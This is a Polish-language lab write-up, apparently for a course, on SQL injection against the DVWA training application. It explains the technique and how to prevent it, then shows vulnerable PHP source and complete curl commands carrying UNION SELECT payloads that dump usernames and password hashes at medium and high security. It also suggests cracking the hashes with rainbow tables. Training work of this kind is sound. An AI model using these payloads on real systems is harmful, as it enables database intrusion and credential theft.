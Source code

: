 # SQLi - SQL injection
## Opis techniki
<blockquote> Atak SQL injection polega na wstawieniu lub "wstrzyknięciu" zapytania SQL za pośrednictwem danych wejściowych od klienta do aplikacji. Udany exploit SQL injection może odczytywać poufne dane z bazy danych, modyfikować dane bazy danych (wstawiać/aktualizować/usuwać), wykonywać operacje administracyjne na bazie danych (takie jak zamykanie DBMS), odzyskiwać zawartość danego pliku obecnego w systemie plików DBMS (load_file), a w niektórych przypadkach wydawać polecenia systemowi operacyjnemu.

Ataki typu SQL injection są rodzajem ataku wstrzykiwania, w którym polecenia SQL są wstrzykiwane do danych wejściowych w celu wykonania predefiniowanych poleceń SQL.

Atak ten może być również nazywany "SQLi".

 Popularne sposoby zapobiegania SQLi:
  
* Korzystanie z spreparowanych instrukcji (Prepared Statements)
* Korzystanie z prawidłowo skonstruowanych procedur przechowywanych (Stored Procedures)
* Walidacja danych wejściowych z użyciem białej listy dozwolonych wyrażeń
* Filtrowanie i stosowanie znaków ucieczki w ciągach wprowadzanych przez użytkownika 
</blockquote>

## DVWA labs

- [DVWA SQLi #1 - Medium](#dvwa-sqli-1---medium)

- [DVWA SQLi #2 - High](#dvwa-sqli-2---high)

Powtórzenie podanych przykładów wymaga zmiany adresu IP oraz tokenu sesji.

<br/>

## DVWA SQLi #1 - Medium
Cel: uzyskanie wszystkich nazw użytkowników i haseł z bazy danych.

Poziom średni wykorzystuje formę ochrony przed wstrzyknięciem SQL, z użyciem funkcji "mysql_real_escape_string()".

#### Kod źródłowy `PHP` 

```php

<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
```

#### Komenda `curl` 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.97.38' -H $'Content-Length: 65' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://10.10.97.38' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Referer: http://10.10.97.38/vulnerabilities/sqli/' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=qu2dn55od2kqge7naeher9k8r6; security=medium' \
    --data-binary $'id=1 or 1=1 UNION SELECT user, password FROM users#&Submit=Submit' \
    $'http://10.10.97.38/vulnerabilities/sqli/' -o output_SQLi_medium.txt
```

#### Efekt działania skryptu:
![image](https://github.com/249064/CBE-BAW-2023/assets/133172137/a3230b00-9830-4dc1-8f61-25ace90cdd1d)

Otrzymane hashe można przyporządkować do konkretnych haseł z użyciem bruteforce bądź tablic tęczowych.
<br/>

<br/>
<br/>

## DVWA SQLi #2 - High

Cel: uzyskanie wszystkich nazw użytkowników i haseł z bazy danych.

Wartości wejściowe są przesyłane do podatnego zapytania za pośrednictwem zmiennych sesji przy użyciu osobnej strony.

#### Kod źródłowy `PHP` 

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?>
```

#### Komenda `curl` 

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.97.38' -H $'Content-Length: 19' -H $'Cache-Control: max-age=0' -H $'Upgrade-Insecure-Requests: 1' -H $'Origin: http://10.10.97.38' -H $'Content-Type: application/x-www-form-urlencoded' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' -H $'Referer: http://10.10.97.38/vulnerabilities/sqli/session-input.php' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: close' \
    -b $'PHPSESSID=qu2dn55od2kqge7naeher9k8r6; security=high' \
    --data-binary $'id=1\' UNION SELECT user, password FROM users#&Submit=Submit' \
    $'http://10.10.97.38/vulnerabilities/sqli/session-input.php' -o output_SQLi_high.txt
```

#### Efekt działania skryptu:
![image](https://github.com/249064/CBE-BAW-2023/assets/133172137/1be271e5-c021-4fae-80aa-d07c4594056c)

Otrzymane hashe można przyporządkować do konkretnych haseł z użyciem bruteforce bądź tablic tęczowych.

<br/>
